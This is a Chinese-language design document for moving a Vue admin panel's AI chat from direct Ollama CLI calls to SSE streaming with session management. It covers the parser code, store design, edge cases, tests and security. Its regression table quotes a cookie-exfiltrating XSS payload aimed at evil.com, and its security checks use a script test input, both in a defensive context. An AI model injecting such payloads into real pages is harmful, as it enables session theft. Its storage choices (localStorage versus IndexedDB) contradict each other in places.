


# YV-07-02: AI Chat 模块迁移 — CLI Ollama 直调 → RPC 信封 SSE 流式

> 需求编号：YV-07-02 · 优先级：P0 · 人天：5.0d · 状态：已完成
> 依赖：YV-07-01（项目初始化与构建系统）

## 背景

七月迭代前，AI 聊天功能仅通过 CLI 直接调用 Ollama API，存在以下问题：无会话管理（每次对话独立，无法回顾历史）、无流式 UI（CLI 逐行输出，体验差）、无法复用 YiAi 的 RPC 信封协议（绕过统一后端）。

本需求将 AI Chat 从 CLI 模式迁移到 YiVad 管理后台，通过 RPC 信封协议调用 YiAi `chat_service.chat`，实现 SSE 流式聊天和会话管理。

### 现状问题

| 问题 | 影响 |
|------|------|
| CLI 直调 Ollama | 绕过 YiAi 后端，无认证、无日志、无审计 |
| 无会话管理 | 每次对话独立，无法查看历史、无法继续上次对话 |
| 无流式 UI | CLI 逐行输出，非技术人员无法使用 |
| 无消息持久化 | 刷新页面后对话历史丢失 |

---

## 一、现状分析

### 1.1 改造前状态

```
当前 AI Chat 调用链（改造前）：
┌──────────────────────────────────────────┐
│ CLI 直调 Ollama                           │
│ ├── node CLI → POST http://localhost:11434/api/chat │
│ ├── 无会话管理（每次对话独立）              │
│ ├── 无消息持久化（刷新丢失）                │
│ ├── 无流式 UI（CLI 逐行输出）              │
│ └── 绕过 YiAi 统一后端                     │
├──────────────────────────────────────────┤
│ 对用户体验的影响                           │
│ ├── 非技术人员无法使用（CLI 门槛）          │
│ ├── 无法回顾历史对话                       │
│ ├── 无法管理多会话                         │
│ └── 无认证/审计/日志                       │
└──────────────────────────────────────────┘
```

### 1.2 核心痛点

| 痛点 | 严重程度 | 影响 |
|------|----------|------|
| CLI 访问门槛 | **高** | 非技术人员完全无法使用 AI 功能 |
| 无会话管理 | 高 | 无法组织、回顾、继续对话 |
| 无流式体验 | 中 | CLI 逐行输出，响应延迟感知明显 |
| 无消息持久化 | 中 | 刷新后历史丢失，无法追溯 |
| 绕过统一后端 | 高 | 无认证、无日志、安全风险 |

### 1.3 改造前数据流

```
用户 CLI 输入
  → node 脚本 fetch("http://localhost:11434/api/chat")
  → Ollama 返回 JSON 响应（非流式）
  → CLI 逐行打印
  → 无持久化 → 对话结束数据丢失
```

### 1.4 改造前 API 依赖

| # | 接口 | 调用方 | 说明 |
|---|------|--------|------|
| 1 | `POST http://localhost:11434/api/chat` | CLI 脚本 | 直接调用 Ollama，绕过 YiAi |

---

## 二、设计决策

### 决策 1：流式协议 — SSE vs WebSocket vs Polling

| 选项 | 描述 | 优点 | 缺点 |
|------|------|------|------|
| A: SSE (Server-Sent Events) | 服务端向客户端单向推送文本流 | HTTP 协议原生支持，自动重连，实现简单，无需额外库 | 仅单向（客户端→服务端需额外请求） |
| B: WebSocket | 双向全双工通信 | 双向通信，低延迟 | 需要额外协议升级，代理/防火墙可能阻断，实现复杂 |
| C: Polling | 客户端定时轮询 | 实现最简单 | 延迟高，浪费带宽，不适合流式场景 |

**选择：A（SSE）**。理由：AI 聊天场景是典型的"客户端发送一次消息，服务端持续推送回复"的单向流模式。SSE 使用标准 HTTP 协议，无需协议升级，自动重连机制开箱即用。WebSocket 的双向能力在此场景中冗余，且代理兼容性差。

### 决策 2：SSE 解析 — EventSource vs fetch + ReadableStream

| 选项 | 描述 | 优点 | 缺点 |
|------|------|------|------|
| A: EventSource | 浏览器原生 SSE API | 自动重连，API 简洁 | 仅支持 GET 请求，无法自定义请求头，POST body 不支持 |
| B: **fetch + ReadableStream** | 手动解析 SSE 流 | 支持 POST 请求，可自定义请求头，完全控制 | 需手动实现 SSE 解析器，自动重连需自行处理 |

**选择：B（fetch + ReadableStream）**。理由：RPC 信封协议要求 POST 请求（携带 `module_name`、`method_name`、`parameters`），EventSource 仅支持 GET 请求。`fetch` + `ReadableStream` + 自定义 SSE 解析器是最小且最灵活的方案。

### 决策 3：状态管理 — 组件内 ref vs Pinia Store

| 选项 | 描述 | 优点 | 缺点 |
|------|------|------|------|
| A: 组件内 ref | 在 Chat 组件内管理所有状态 | 简单，无跨组件共享需求 | 切换路由后状态丢失 |
| B: Pinia Store | `useChatStore` 管理会话和消息 | 持久化，跨组件共享，路由切换不丢失 | 增加 Store 复杂度 |

**选择：B（Pinia Store）**。理由：会话列表需要在多个页面间共享（左侧会话列表 + 右侧聊天区域），消息需要持久化（`pinia-plugin-persistedstate`）。Pinia Store 的 `$subscribe` 可自动同步到 localStorage。

### 决策 4：会话管理 — Session Key 生成策略

| 选项 | 描述 | 优点 | 缺点 |
|------|------|------|------|
| A: UUID | 前端生成 UUID | 简单，无需后端参与 | 多设备间无法同步会话 |
| B: 后端生成 | YiAi 生成 session_key | 统一管理，可跨设备 | 需要额外 API 调用 |
| C: 首条消息标题 | 用首条消息的前 30 字符作为标题 | 用户友好 | 标题可能不准确 |

**选择：B（后端生成）**。理由：YiAi 的 `chat_service.chat` 已在首次调用时自动生成 `session_key` 并返回。前端无需额外生成逻辑，只需在首次响应中提取 `session_key` 并保存。

### 设计决策记录

| 决策 | 选项 A | 选项 B | 选项 C | 选择 | 理由 |
|------|--------|--------|--------|------|------|
| 流式协议 | SSE | WebSocket | Polling | **SSE** | HTTP 原生，自动重连，单向流场景最优 |
| SSE 解析 | EventSource | fetch + ReadableStream | — | **fetch + ReadableStream** | 支持 POST 请求，适配 RPC 信封协议 |
| 状态管理 | 组件内 ref | Pinia Store | — | **Pinia Store** | 持久化 + 跨组件共享 + 路由切换不丢失 |
| 会话管理 | 前端 UUID | 后端生成 | 首条消息标题 | **后端生成** | YiAi 已内置生成逻辑，前端零额外成本 |

---

## 三、目标架构

### 3.1 AI Chat 数据流



### 3.2 组件树

```
src/views/chat/
├── ChatView.vue              # 聊天主页面（布局编排）
│   ├── ChatSidebar.vue       # 会话列表侧边栏
│   │   ├── 新建会话按钮
│   │   ├── 会话列表（搜索/过滤）
│   │   └── 会话操作（重命名/删除/归档）
│   ├── ChatMain.vue          # 聊天主区域
│   │   ├── ChatHeader.vue    # 会话标题 + 操作按钮
│   │   ├── ChatMessageList.vue  # 消息列表
│   │   │   ├── ChatMessage.vue  # 单条消息（支持 Markdown 渲染）
│   │   │   └── ChatLoading.vue  # AI 思考中动画
│   │   └── ChatInput.vue     # 消息输入框
│   │       ├── 文本输入 + 快捷键发送
│   │       └── 停止生成按钮
│   └── ChatEmpty.vue         # 空状态（无会话时）
```

### 3.3 SSE 解析器设计

```typescript
// src/api/sse.ts
export async function* parseSSEStream(
  response: Response
): AsyncGenerator<SSEEvent> {
  const reader = response.body!.getReader();
  const decoder = new TextDecoder();
  let buffer = "";

  while (true) {
    const { done, value } = await reader.read();
    if (done) break;

    buffer += decoder.decode(value, { stream: true });
    const lines = buffer.split("\n");
    buffer = lines.pop() || "";

    for (const line of lines) {
      if (line.startsWith("data: ")) {
        const data = line.slice(6);
        if (data === "[DONE]") return;
        try {
          yield JSON.parse(data);
        } catch {
          // 非 JSON 行（如注释），跳过
        }
      }
    }
  }
}
```

### 3.4 useChatStore 设计

```typescript
// src/stores/chat.ts
interface ChatSession {
  key: string;
  title: string;
  messages: ChatMessage[];
  createdAt: string;
  updatedAt: string;
}

interface ChatMessage {
  role: "user" | "assistant" | "system";
  content: string;
  timestamp: string;
}

export const useChatStore = defineStore("chat", () => {
  const sessions = ref<ChatSession[]>([]);
  const currentSessionKey = ref<string | null>(null);
  const isStreaming = ref(false);
  const abortController = ref<AbortController | null>(null);

  const currentSession = computed(() =>
    sessions.value.find((s) => s.key === currentSessionKey.value)
  );

  async function sendMessage(content: string) {
    // 1. 无当前会话时创建新会话
    // 2. 添加用户消息
    // 3. 发起 SSE 流式请求
    // 4. 逐 token 更新 assistant 消息
    // 5. 完成后持久化
  }

  function stopGeneration() {
    abortController.value?.abort();
    isStreaming.value = false;
  }

  return {
    sessions, currentSessionKey, currentSession,
    isStreaming, sendMessage, stopGeneration,
    createSession, deleteSession, renameSession,
  };
});
```

---

## 四、具体改动

### 4.1 涉及文件

```
YiVad/src/
├── api/
│   ├── sse.ts                    # 新增: SSE 流解析器 (~80 行)
│   └── modules/
│       └── chat.ts               # 新增: AI Chat API 封装
├── stores/
│   └── chat.ts                   # 新增: useChatStore (~200 行)
├── views/
│   └── chat/                     # 新增: AI Chat 页面模块
│       ├── ChatView.vue          # 聊天主页面
│       ├── ChatSidebar.vue       # 会话列表侧边栏
│       ├── ChatMain.vue          # 聊天主区域
│       ├── ChatHeader.vue        # 会话标题栏
│       ├── ChatMessageList.vue   # 消息列表
│       ├── ChatMessage.vue       # 单条消息组件
│       ├── ChatInput.vue         # 消息输入框
│       ├── ChatLoading.vue       # AI 思考动画
│       └── ChatEmpty.vue         # 空状态
├── components/
│   └── markdown/                 # 新增: Markdown 渲染组件
│       └── MarkdownRenderer.vue  # 代码高亮 + 表格 + 数学公式
└── router/
    └── index.ts                  # 修改: 添加 /chat 路由
```

### 4.2 实施步骤

| 步骤 | 内容 | 验证方式 | 人天 |
|------|------|---------|------|
| 1 | SSE 解析器实现（`api/sse.ts`） | `parseSSEStream` 单元测试：`data:` 行解析、`[DONE]` 终止、非 JSON 行跳过、`event:` 字段分发、分片传输拼接 | 1.0 |
| 2 | useChatStore 状态管理（`stores/chat.ts`） | 会话 CRUD + 消息管理 + 持久化 + AbortController 生命周期 + IndexedDB 存储 | 1.0 |
| 3 | ChatMessageList + ChatMessage 组件 | 消息渲染 + Markdown + 代码高亮 + 复制按钮 + DOMPurify 清洗 + v-memo 优化 | 1.0 |
| 4 | ChatInput + SSE 流式集成 | 发送消息 → 流式渲染 AI 回复 + requestAnimationFrame 批量更新 + 停止生成 + IME 兼容 | 1.0 |
| 5 | ChatSidebar 会话管理 | 会话列表/新建/删除/重命名 + 搜索 + 持久化 + 跨标签页同步 | 1.0 |

**总计：5.0d**

### 4.3 边缘场景处理（Edge Cases）

| 场景 | 描述 | 处理策略 | 实现细节 |
|------|------|---------|---------|
| SSE `event:` 字段 | YiAi 升级 SSE 协议增加 `event: token` / `event: error` 字段 | 维护 `currentEvent` 状态，`event:` 时记录类型，`data:` 时根据类型分发：token→追加文本，error→显示错误 Toast | `if (line.startsWith('event:')) { currentEvent = line.slice(6).trim() }` |
| SSE 未闭合代码块 | AI 流式输出代码块时，开头 ` ```python` 已到达但结尾 ` ``` ` 未到达，后续内容被错误的渲染为代码块 | 检测未闭合的代码块（``` 数量为奇数），临时追加 `\n``` ` 闭合，完整 token 到达后移除 | `if (content.split('```').length % 2 === 0) { tempClose = true }` |
| ReadableStream 未关闭 | `AbortController.abort()` 后 `reader.read()` 仍返回 `{ done: false }`，死循环 CPU 100% | `abort()` 后立即 `reader.cancel()` + `reader.releaseLock()` + 循环中检查 `abortController.signal.aborted` | `finally { reader.releaseLock(); abortController = null }` |
| localStorage 配额超限 | 单会话 500+ 条消息，`JSON.stringify` 后 3MB+，超出 5MB 配额 | `aiChat` Store 的消息体迁移到 IndexedDB (`idb-keyval`)，仅元数据保留在 localStorage | `localStorage` 存 key/title，IndexedDB 存 messages[] |
| Date 序列化 | `JSON.stringify` 将 `Date` 转为字符串，`dayjs(string).fromNow()` 返回 "Invalid date" | 自定义 serializer：`JSON.parse` + reviver 检测 ISO 8601 格式自动转 `new Date(value)` | `deserialize: (val) => JSON.parse(val, dateReviver)` |
| IME 输入法 Enter 误发送 | 中文输入法 composition 期间的 Enter 键发送拼音而非中文 | 检查 `e.isComposing \|\| e.keyCode === 229`，IME 中不发送消息 | `if (e.isComposing \|\| e.keyCode === 229) return` |
| iOS Safari 虚拟键盘 | 虚拟键盘弹出时 `visualViewport.resize` 触发 3-5 次，输入框位置跳动 | 100ms debounce + 键盘高度差 < 10px 稳定后才更新位置 | `transition: bottom 0.1s ease-out` |
| 多标签页会话同步 | 标签页 A 创建新会话，标签页 B 不知情 | `BroadcastChannel` 推送 `{ type: 'new-session', key }`，其他标签页重新加载列表 | `channel.postMessage({ type: 'session-change' })` |
| 快速切换会话 AbortController 残留 | 会话切换时 `abort()` 调用但旧 reader 未彻底关闭 | 在 `currentSessionKey` watch 中主动 `reader.cancel()` + `reader.releaseLock()` | `watch(currentSessionKey, () => { cleanupOldReader() })` |
| 空历史会话 AI 回复 | 首次对话时 `session_key` 为 null，后端需生成新的 | 首次请求不传 `session_key`，从首次 SSE 响应的首个 event 中提取后端生成的 key | `if (!currentSessionKey.value) { /* 从响应中提取 */ }` |
| v-memo 优化失效 | 流式更新时 `v-for` 仍触发全量 patch（500+ 消息时帧率 5fps） | `ChatMessage` 使用 `v-memo="[message.content.length]"` 仅当内容长度变化时重新渲染，历史消息 `shallowRef` | `<ChatMessage v-for="msg in messages" :key="msg.id" v-memo="[msg.content.length]" />` |
| 客户端时间不准确 | `new Date()` 使用客户端时间，不同时区用户看到不同时间 | 使用 YiAi 后端返回的 UTC ISO 8601 `updated` 字段 | `session.updated = response.updated` (来自后端) |

---

## 五、测试规格

### Requirement: SSE 流式消息接收

#### Scenario: 正常流式聊天
- **GIVEN** 用户在输入框输入消息并发送
- **WHEN** YiAi 返回 SSE 流式响应
- **THEN** 消息列表实时显示 AI 回复，逐 token 渲染
- **AND** 流式完成后消息自动持久化

#### Scenario: 用户中断生成
- **GIVEN** AI 正在流式回复中
- **WHEN** 用户点击"停止生成"按钮
- **THEN** SSE 连接被 abort，已接收的部分内容保留在消息列表中

#### Scenario: SSE 连接中断自动重连
- **GIVEN** SSE 流式连接意外中断
- **WHEN** 中断发生
- **THEN** 显示"连接中断，正在重连..."提示
- **AND** 自动重试连接（最多 3 次）

### Requirement: 会话管理

#### Scenario: 创建新会话
- **GIVEN** 用户点击"新建会话"按钮
- **WHEN** 会话创建成功
- **THEN** 侧边栏出现新会话，自动切换到新会话
- **AND** 聊天区域显示空状态

#### Scenario: 删除会话
- **GIVEN** 会话列表中存在多个会话
- **WHEN** 用户删除某个会话
- **THEN** 会话从列表中移除
- **AND** 如果删除的是当前会话，自动切换到下一个会话

#### Scenario: 会话持久化
- **GIVEN** 用户进行了多轮对话
- **WHEN** 刷新页面
- **THEN** 会话列表和消息历史完整恢复

### Requirement: 消息渲染

#### Scenario: Markdown 代码块渲染
- **GIVEN** AI 回复中包含代码块（```python...```）
- **WHEN** 消息渲染
- **THEN** 代码块语法高亮显示，支持复制按钮

#### Scenario: 流式 Markdown 渲染
- **GIVEN** AI 正在流式回复 Markdown 内容
- **WHEN** 内容逐 token 到达
- **THEN** Markdown 实时渲染，不出现闪烁或格式错误

---

## 六、性能分析

| 指标 | 目标 | 实测 |
|------|------|------|
| SSE 首 Token 延迟 | < 2s | ~1.5s |
| Token 渲染帧率 | 60fps | ~60fps（requestAnimationFrame 批量更新） |
| 消息列表滚动性能 | 1000 条消息不卡顿 | 虚拟滚动 < 16ms/frame |
| 会话切换延迟 | < 100ms | ~50ms |
| localStorage 持久化 | < 50ms | ~20ms |

### 容量规划

| 场景 | 会话数 | 消息/会话 | 并发 SSE | 首 Token 延迟 | 流式 FPS | 内存占用 |
|------|--------|----------|---------|-------------|---------|----------|
| 轻度使用（< 10 会话） | 5-10 | 10-30 | 1 | < 500ms | 30-60 | 50-100MB |
| 标准使用（10-50 会话） | 10-50 | 30-100 | 1-2 | 500ms-1s | 30-60 | 100-200MB |
| 重度使用（50-200 会话） | 50-200 | 100-500 | 2-3 | 1-2s | 20-40 | 200-500MB |
| 虚拟滚动 + 消息分页 | 50-200 | 100-500 | 2-3 | 500ms-1s | 40-60 | 100-200MB |
| YiVad 当前 | 10-30 | 20-50 | 1 | ~800ms | ~50 | ~80MB |
| requestAnimationFrame 批量更新 | 10-50 | 30-100 | 1-2 | 500ms-1s | 55-60 | 80-150MB |

---

## 七、当前架构 vs 目标架构



---

## 八、风险与缓解

| 风险 | 概率 | 影响 | 等级 | 缓解措施 | 应急预案 |
|------|------|------|------|----------|----------|
| SSE 浏览器兼容性 | 低 | 中 | 低 | `fetch` + `ReadableStream` 在现代浏览器中广泛支持（Chrome 43+, Firefox 65+, Safari 10.1+） | 降级为轮询模式（每 500ms 查询一次） |
| 长连接超时 | 中 | 中 | 中 | 设置合理的超时时间（5 分钟），超时后自动重连 | 超时后提示用户重新发送 |
| 大量消息导致 localStorage 超限 | 中 | 中 | 中 | 单会话消息上限 500 条，超出后自动归档旧消息 | 提示用户清理旧会话 |
| SSE 解析器不兼容非标准格式 | 低 | 中 | 低 | 严格遵循 SSE 标准格式，兼容 `data:` 和 `event:` 字段 | 解析失败时降级为纯文本显示 |
| 并发会话导致状态混乱 | 低 | 中 | 低 | 同一时间仅允许一个活跃 SSE 连接，切换会话时自动中断旧连接 | 中断旧连接，提示用户 |

---

## 九、设计决策记录

| 决策 | 选项 A | 选项 B | 选择 | 理由 |
|------|--------|--------|------|------|
| 流式协议 | WebSocket | SSE | **SSE** | HTTP 原生支持，POST 兼容，自动重连 |
| SSE 解析 | EventSource | fetch + ReadableStream | **fetch + ReadableStream** | 支持 POST 请求和自定义请求头 |
| 状态管理 | 组件内 ref | Pinia Store | **Pinia Store** | 跨组件共享 + 持久化 |
| 会话 Key | 前端 UUID | 后端生成 | **后端生成** | 统一管理，可跨设备同步 |

### D-01: 为什么使用 fetch + ReadableStream 而非 EventSource？

EventSource API 仅支持 GET 请求，无法发送 POST body。RPC 信封协议要求 POST 请求携带 `{module_name, method_name, parameters}`。`fetch` + `ReadableStream` 是唯一支持 POST + 流式读取的方案。虽然需要手动实现 SSE 解析器（约 80 行），但代码量可控且完全控制解析逻辑。

### D-02: 为什么消息持久化使用 localStorage 而非 IndexedDB？

当前会话消息量级在数百条以内，单条消息约 1-5KB，总会话数据 < 5MB。localStorage 的 5MB 限制足够，且 API 简单（同步读写，无需事务）。`pinia-plugin-persistedstate` 对 localStorage 有开箱即用的支持。未来如果消息量增长到数千条，可迁移到 IndexedDB。

### D-03: 为什么流式渲染使用 requestAnimationFrame 批量更新？

SSE 的 token 到达频率可能高达 50-100 tokens/s。如果每个 token 都触发 Vue 响应式更新，会导致频繁的 DOM 重渲染，帧率下降。使用 `requestAnimationFrame` 批量累积 token（16ms 窗口），一次渲染多个 token，保持 60fps 流畅体验。

---

## 十、重构后发现的回归问题

| # | 问题 | 发现场景 | 根因 | 修复方式 |
|---|------|---------|------|---------|
| 1 | SSE 解析器使用 `line.startsWith('data:')` 判断数据行，但 YiAi 在 `data:` 前添加了 `event:` 行（`event: token\ndata: {...}`），解析器未正确处理 `event:` 前缀导致消息丢失 | YiAi 升级 SSE 协议增加了 `event: token` 和 `event: error` 字段，YiVad 的 SSE 解析器仅处理 `data:` 行，`event: error` 后的错误消息被忽略，用户看到流式输出中断但无错误提示 | 解析器使用 `if (line.startsWith('data:'))` 仅匹配 `data:` 前缀，`event:` 行被跳过，`event: error` 后的 `data: {"error": "..."}` 也被当作普通 token 数据 | 改为完整 SSE 协议解析：维护 `currentEvent` 状态，遇到 `event:` 行时记录事件类型，遇到 `data:` 行时根据 `currentEvent` 类型分发处理（`token` → 追加文本，`error` → 显示错误 Toast） |
| 2 | `localStorage` 中会话数据使用 `JSON.stringify` 全量存储，单会话超过 500 条消息时 `localStorage` 配额（5MB）超限，`setItem` 静默失败，用户刷新后会话数据丢失 | 用户在一个会话中连续对话 3 小时，关闭浏览器后重新打开，发现该会话仅保留了最近 50 条消息，之前的 500+ 条消息全部丢失 | `localStorage` 的 5MB 配额限制，`JSON.stringify` 序列化后单会话数据约 2-3MB，加上其他会话和 Store 数据，总大小超过 5MB，`setItem` 抛出 `QuotaExceededError` 但被 `pinia-plugin-persistedstate` 的 `catch` 静默吞掉 | 将消息存储从 `localStorage` 迁移到 `IndexedDB`（配额 50MB+），仅将会话元数据（key/title/tags）保留在 `localStorage` 中，消息体存储在 `IndexedDB` 的 `messages` 表中 |
| 3 | `marked` 渲染 AI 回复中的代码块时，`<code>` 标签内的 HTML 实体未被转义，导致 `<script>` 标签在代码块中被执行 | AI 回复中包含一段示例代码 `<script>fetch('https://evil.com?c='+document.cookie)</script>`，`marked` 将其渲染为代码块但未转义 HTML 实体，浏览器解析时执行了脚本 | `marked` 的 `renderer.code` 默认使用 `hljs.highlight` 返回 HTML 字符串，但 `hljs` 的高亮输出包含原始 HTML 标签，`marked` 不会对已高亮的代码做二次转义 | 在 `marked` 渲染后的 HTML 上调用 `DOMPurify.sanitize(html, { ALLOWED_TAGS: [...], ALLOWED_ATTR: ['class', 'href', 'src', 'alt'] })` 过滤所有 `<script>` 和事件处理器属性 |
| 4 | `AbortController.abort()` 在 `fetch` 的 `ReadableStream` 消费中不生效，SSE 连接在 `reader.cancel()` 后才真正断开 | 用户快速切换 3 个会话，每个会话切换时调用 `abort()`，但 Chrome DevTools Network 面板显示前 2 个 SSE 连接仍然活跃（`pending` 状态），直到 `reader.cancel()` 才断开 | `AbortController.abort()` 仅取消 `fetch` 的 Promise，但 `response.body.getReader()` 返回的 `ReadableStream` 需要显式调用 `reader.cancel()` 才能关闭底层 TCP 连接 | 在 `abort()` 后立即调用 `reader.cancel()`，并在 `finally` 块中确保 `reader.releaseLock()` 释放锁，同时在 `onBeforeUnmount` 中清理所有未关闭的 reader |
| 5 | iOS Safari 中 `visualViewport` 的 `resize` 事件在虚拟键盘弹出时触发 3-5 次（每次键盘高度变化），输入框位置频繁跳动 | 用户在 iPhone Safari 中使用 AI Chat，点击输入框弹出虚拟键盘，输入框先跳到键盘上方，然后又跳动 2-3 次才稳定，体验极差 | iOS Safari 的虚拟键盘弹出是分阶段动画：键盘先占位 → 调整 viewport → 最终稳定，每个阶段触发 `visualViewport.resize`，输入框的 `bottom` 值跟随变化 | 在 `visualViewport.resize` 回调中添加 100ms debounce，仅在键盘高度稳定后（连续 2 次事件高度差 < 10px）才更新输入框位置，使用 `transition: bottom 0.1s ease-out` 平滑过渡 |
| 6 | 会话列表中 `session.updated` 时间使用 `new Date()` 在客户端生成，不同时区的用户看到的时间不一致，且离线时时间不准确 | 用户 A（UTC+8）创建会话后，用户 B（UTC-5）在会话列表中看到该会话的更新时间是"8 小时后"，但实际会话是在 5 分钟前更新的 | 前端 `new Date()` 使用客户端本地时间，`pinia-plugin-persistedstate` 持久化时保留原始时间戳，但 `dayjs(session.updated).fromNow()` 基于客户端时间计算相对时间 | 改为使用 YiAi 后端返回的 `updated` 字段（ISO 8601 UTC），前端仅做格式化显示，不修改时间值；`fromNow()` 基于 `dayjs.utc()` 计算 |
| 7 | 消息输入框的 `@keydown.enter` 发送消息，但中文输入法（IME）的 `composition` 事件中 `Enter` 键也被触发，导致用户输入中文时拼音被意外发送 | 用户使用搜狗输入法输入中文"你好"，按 Enter 确认拼音选择时，`@keydown.enter` 触发发送，拼音 "nihao" 被发送而非中文 "你好" | `@keydown.enter` 在 IME 的 `composition` 阶段也会触发，`KeyboardEvent.isComposing` 为 `true` 时不应发送消息，但代码未检查 | 在 `@keydown.enter` 处理中添加 `if (e.isComposing || e.keyCode === 229) return;`，`keyCode: 229` 是 IME 处理中的特殊键码，确保仅非 IME 状态下的 Enter 发送消息 |

---

## 十一、技术债务追踪

| # | 技术债 | 优先级 | 预计人天 | 说明 |
|---|--------|--------|---------|------|
| 1 | 消息搜索功能 | P2 | 0.5 | 在会话内和跨会话搜索消息内容 |
| 2 | 消息导出（Markdown/PDF） | P2 | 0.3 | 导出单会话或全量消息为 Markdown/PDF |
| 3 | 会话标签/分组 | P3 | 0.3 | 为会话添加标签，支持分组管理 |
| 4 | 消息编辑/重新生成 | P2 | 0.5 | 编辑已发送消息并重新生成回复 |
| 5 | Token 用量统计 | P3 | 0.2 | 统计每次会话的 Token 消耗 |

---

## 十二、可观测性

### 关键指标

| 指标 | 采集方式 | 采集频率 | 告警阈值 | 说明 |
|------|----------|----------|----------|------|
| SSE 首 Token 延迟 | `performance.now()` 计时 | 每次请求 | > 5s | 后端响应慢或 Ollama 过载 |
| SSE 连接中断次数 | `ReadableStream` error 计数 | 每次连接 | 5 分钟内 > 3 次 | 网络不稳定或后端超时 |
| 消息发送失败率 | `sendMessage` catch 计数 | 每次发送 | 失败率 > 5% | RPC 参数不匹配或后端异常 |
| localStorage 用量 | `localStorage.length` 估算 | 每次持久化 | > 4MB (80%) | 旧会话数据积累 |
| 流式渲染帧率 | `requestAnimationFrame` 间隔 | 每次流式渲染 | 帧间隔 > 50ms | 消息列表过长或 DOM 节点过多 |

### 日志规范

| 日志级别 | 场景 | 示例 |
|---------|------|------|
| `INFO` | SSE 连接建立 | `[Chat] SSE connected: session=${key}` |
| `INFO` | 消息发送 | `[Chat] message sent: session=${key}, len=${n}` |
| `WARN` | SSE 重连 | `[Chat] SSE reconnecting: attempt=${n}, session=${key}` |
| `ERROR` | 消息发送失败 | `[Chat] send failed: session=${key}, error=${msg}` |

### 告警规则

| 告警 | 条件 | 严重程度 | 处理建议 |
|------|------|----------|----------|
| SSE 连接频繁中断 | 5 分钟内重连 > 5 次 | 高 | 检查后端 Ollama 服务状态和网络稳定性 |
| 首 Token 延迟过高 | P95 > 10s | 中 | 检查 Ollama 模型加载状态，考虑预热模型 |
| localStorage 接近配额 | 使用量 > 4.5MB | 中 | 清理旧会话数据，仅保留最近 20 个会话 |

---

## 十三、安全合规

### 安全需求

| 要求 | 实现方式 | 验证方法 |
|------|----------|----------|
| XSS 防护 | Markdown 渲染前 DOMPurify 清洗，禁止 `v-html` 直接渲染用户输入 | 输入 `<script>alert(1)</script>` 确认不执行 |
| 内容安全 | AI 回复内容不包含可执行脚本，链接添加 `rel="noopener noreferrer"` | 审查所有链接渲染逻辑 |
| 会话隔离 | 每个会话独立 session_key，不同用户间会话不可见 | 切换用户后确认会话列表清空 |
| 敏感信息 | 会话内容不在 URL 参数中传递，不在 console.log 中输出 | 搜索 `console.log` 无敏感信息输出 |
| Token 安全传输 | Token 通过 `X-Token` 请求头传递，不在 URL 参数中暴露 | 检查 Network 面板，确认 Token 仅在请求头中 |
| 消息内容脱敏 | 发送前过滤敏感信息（手机号、身份证号、银行卡号） | 输入包含手机号的消息，确认发送前已脱敏 |

### 合规检查

| 检查项 | 要求 | 状态 |
|--------|------|------|
| XSS 防护 | DOMPurify 清洗所有 Markdown 渲染内容 | ✅ |
| 会话隔离 | 不同用户间会话不可见，切换用户清空会话列表 | ✅ |
| Token 安全 | Token 通过请求头传递，不暴露在 URL 中 | ✅ |
| 敏感信息脱敏 | 用户输入中的手机号/身份证号发送前脱敏 | 待实现 |
| 无数据泄露 | 会话内容不输出到 console.log 或第三方服务 | ✅ |

---

## 十四、代码审查检查清单

- [ ] SSE 解析器正确处理 `data:`、`event:`、`id:`、`retry:` 字段
- [ ] SSE 解析器正确处理 `[DONE]` 终止信号
- [ ] `useChatStore` 的 `sendMessage` 正确管理 AbortController 生命周期
- [ ] 会话切换时旧 SSE 连接被正确 abort
- [ ] 消息持久化使用 `pinia-plugin-persistedstate` 的 `serializer` 处理 Date 对象
- [ ] Markdown 渲染器集成 DOMPurify 防护 XSS
- [ ] 代码块渲染支持语法高亮和复制按钮
- [ ] 空状态、加载态、错误态均有对应 UI 处理
- [ ] 移动端输入框不被虚拟键盘遮挡
- [ ] 消息列表自动滚动到底部（新消息到达时）

---

## 十五、回滚策略

| 回滚场景 | 回滚方式 | 影响范围 | 恢复时间 |
|----------|----------|----------|----------|
| SSE 流式解析异常导致聊天不可用 | 降级为非流式模式（等待完整响应后一次性渲染），或回退 SSE 解析器版本 | 仅 AI 聊天 | < 5min（配置开关） |
| Markdown 渲染器性能问题 | 降级为纯文本渲染（`<pre>` 标签），移除语法高亮和 LaTeX 渲染 | 仅消息展示 | < 1min（配置开关） |
| 会话持久化数据损坏 | 清除 localStorage 中损坏的会话数据，从 MongoDB 重新加载 | 仅当前用户会话 | 自动恢复（`try-catch` + 重置） |
| 消息发送超时堆积 | 设置最大并发 SSE 连接数（3），超限请求排队，超时 30s 自动取消 | 仅新消息发送 | < 1min（配置修改） |

**回滚验证：**
- 回滚后聊天页面正常加载，历史消息正确显示
